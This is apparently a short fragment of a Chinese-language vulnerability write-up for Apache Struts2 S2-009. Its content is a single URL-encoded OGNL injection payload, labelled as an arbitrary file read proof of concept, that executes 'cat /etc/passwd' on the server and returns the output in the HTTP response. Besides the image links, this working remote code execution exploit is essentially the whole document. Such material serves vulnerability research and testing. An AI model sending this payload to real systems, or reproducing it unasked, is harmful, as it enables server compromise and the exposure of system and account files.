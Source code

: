 ![s2-009-2](images/s2-009-2.png)

任意文件读取 PoC，读取 `/etc/passwd` 文件

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

![s2-009-3](images/s2-009-3.png)
